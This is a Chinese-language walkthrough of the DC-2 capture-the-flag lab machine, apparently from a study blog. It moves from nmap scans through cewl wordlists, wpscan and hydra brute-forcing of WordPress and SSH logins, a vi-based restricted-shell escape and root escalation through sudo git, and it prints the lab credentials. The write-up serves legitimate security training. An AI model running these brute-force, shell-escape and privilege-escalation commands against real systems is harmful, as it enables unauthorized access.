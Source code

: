 # 信息收集

## 主机探测

```sql
nmap -sn -PR -n -v 192.168.1.0/24
```

![img](assets/1684458148862-526ba134-8fd3-46c2-853d-1f47906054e7.png)

探测到存活ip,进一步探测服务以及端口开放情况：

```sql
nmap -sV -p- 192.168.1.138
```

![img](assets/1684458413098-5c537dd3-b02b-4b0e-9247-d88711ffcf5b.png)开放了80端口web服务，以及在7744的ssh服务

访问一下80端口的web服务，发现访问失败

![img](assets/1684458610423-b152dc02-21ac-4e33-bad5-cf7c43278cb6.png)但是靶机上的80端口web服务确实开启了，那么应该是DNS服务器上没有相关记录，解析不到，所以需要修改hosts文件，直接定向域名到ip,先全面扫描看看猜测是否正确：

```sql
nmap -A -p- 192.168.1.138

Did not follow redirect to http://dc-2/
未遵循重定向到http://dc-2/
```

![img](assets/1684459182961-540a488a-9ee7-4cfa-bba5-17df86c76191.png)

果然，所以修改host文件，位置如下

```sql
Windows：C:\Windows\System32\drivers\etc\hosts
Linux：/etc/hosts

192.168.1.138 dc-2
```

![img](assets/1684459279356-1fc6b5a7-7625-4c33-9e52-bacf14409f64.png)

再访问，即可访问到web页面，发现flag1

![img](assets/1684459752530-35693aee-8e76-46bb-a74b-2516a0c57685.png)

```sql
您通常的单词表可能不起作用，因此，也许您只需要成为 cewl。
更多的密码总是更好，但有时你无法赢得所有密码。
以一个身份登录以查看下一个标志。
如果找不到，请以另一个身份登录。  
```

#  漏洞探测与利用

 用nmap对目标进行一下初步的漏洞扫描

![img](assets/1684637266881-ebd23810-cc94-4312-9f30-e09d7c478963.png)发现80端口的web服务是wordpressCMS搭建的，版本是4.7.10，且发现了admin,tom,jerry三个用户名，以及后台登录路径，/wp-login.php，结合上面flag1的内容提示，接下来尝试登录一下：

先查看一下登陆界面：

![img](assets/1684639123246-96c265b2-83e6-45b1-a8c6-509a74f6d9ed.png)发现登陆验证机制是存在问题的，可以做用户名枚举，密码爆破等等。

**（针对wordpressCMS的站点，还有一个专门的测试工具，wpscan）**

[【网安神器篇】——WPScan漏洞扫描工具_白昼安全的博客-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/127162211?ops_request_misc=%7B%22request%5Fid%22%3A%22168463785916800192296423%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=168463785916800192296423&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_click~default-2-127162211-null-null.142^v87^control_2,239^v2^insert_chatgpt&utm_term=wpscan&spm=1018.2226.3001.4187)

flag1提到了cewl,cewl 是一个网页关键字抓取工具，可以根据网页中的关键字生成一个密码字典

```bash
cewl是一个 [ruby](https://www.codercto.com/topics/20648.html) 应用，爬行指定url的指定深度。也可以跟一个外部链接，结果会返回一个单词列表
语法：cewl url [options]

常用语法：

-h, –help：显示帮助。

-k, –keep：保存下载文件。

-d <x>, –depth <x>：爬行深度，默认2。

-m, –min_world_length：最小长度，默认最小长度为3。

-o, –offsite：允许爬虫访问其他站点。

-w, –write：将输出结果写入到文件。

-u, –ua <agent>：设置user agent。

-n, –no-words：不输出字典。

–with-numbers：允许单词中存在数字，跟字母一样。

-a, –meta：包括元数据。

–meta_file file：输出元数据文件。

-e, –email：包括email地址。

–email_file <file>：输入邮件地址文件。

–meta-temp-dir <dir>：exiftool解析文件时使用的临时目录，默认是/temp。

-c, –count：显示发现的每个单词的数量。

-v, –verbose：verbose。

–debug:提取调试信息。
```

使用cewl生成一个密码字典

![img](assets/1684638997880-9dc436b5-b0ae-4bc9-9f8c-bd55c2489b78.png)

接下来利用该密码字典以及前面收集到的三个用户名，来爆破登陆一下后台看看：

先将用户名保存到文件：

![img](assets/1684639296900-8ccf4f28-bd2c-49e7-a0e2-3f8c574fb3c7.png)

用wpscan进行爆破：

```bash
wpscan --url http://dc-2 -U user.txt -P passwd.txt
```

![img](assets/1684639457660-ad8b2ff4-7351-46ce-b683-ff015e6980cc.png)

扫描得到jerry和tom的密码，尝试登陆，jerry得到flag2

![img](assets/1684640231886-fea35f0d-cb66-4f80-98e0-9a92c0a6180b.png)到这里，这天路就断了

回想起前面的信息收集成果中，还有开放的ssh端口7744，不妨用这里的账户和密码去尝试连接登陆看看（不然就爆破试试），最后发现tom用户是可以连接成功的： tom parturient  

爆破：hydra -L user.txt -P pass.txt ssh://192.168.84.143  -s 7744 -vV（用户名、密码字典就自定义咯）

ssh tom@192.168.1.138 -p 7744  

![img](assets/1684640624372-dd22e2ff-450d-4e8a-a568-d98f17da2ca8.png)

![img](assets/1684640651783-cc1f0745-dc7f-4d76-97d5-9cd798df6c2a.png)

## rbash绕过

发现flag3.txt,但是rbash（限制的bash），无法执行cat命令,读取内容

[Linux Restricted Shell绕过技巧总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/188989.html)

 查看我们可以使用的命令 ls /home/tom/usr/bin

![img](assets/1684641195217-93fb1c53-132e-449b-9918-868150d21aeb.png)

发现可用的命令就四个，先查看一下flag3内容：

![img](assets/1684641259638-6b1131b3-9880-415d-9bc0-6d2d41d3528d.png)

**tom落后于Jerry,又提到关键字su，或许需要切换到jerry用户？**

**发现su命令无法使用，因此这里先绕过一下rbash,利用vi编辑器**

```bash
输入vi打开vi编辑器
末行模式，设置shell-->   :set shell=/bin/sh
shell
得到无限制shell(此时可以使用常规命令了，如cat、cd等)
```

![img](assets/1684642473216-fb6ec676-4041-48ff-b87d-4f8804071cf3.png)

切换到jerry:    su jerry      adipiscing

![img](assets/1684642662895-7b0455b1-3f4e-4070-9106-1700c762f258.png)

发现flag4.txt,没什么东西（提示到有git），那就看一下权限，提权到root再看看

![img](assets/1684642726819-c93bf699-dae0-4b14-99b2-5a8629c234fa.png)

![img](assets/1684642805909-ec0a9b1a-d585-4d08-a136-24ae7daf3999.png)

## 提权

### sudo滥用提权

sudo -l   查看一下当前用户可以执行的sudo权限命令

![img](assets/1684643090062-e6d4b467-81e0-4505-a201-0cd3e9b0e8f0.png)

可以运行免root权限运行git

```bash
sudo git help add
sudo git help config
sudo git -p help
//三选一
输密码
再
!/bin/bash    或者!/bin/bash
即可
```

![img](assets/1684643212044-e38b910e-d74e-4de7-93ad-eee1baeb3675.png)

得到最终flag

![img](assets/1684643382949-481a6361-9073-406b-b09c-989eae378c51.png)

# 总结收获

1、wordpressCMS一般攻击方式，以及wpscan工具初识。

2、cewl工具初识（根据网页关键字生成密码字典）

3、rshell绕过方式

4、sudo滥用提权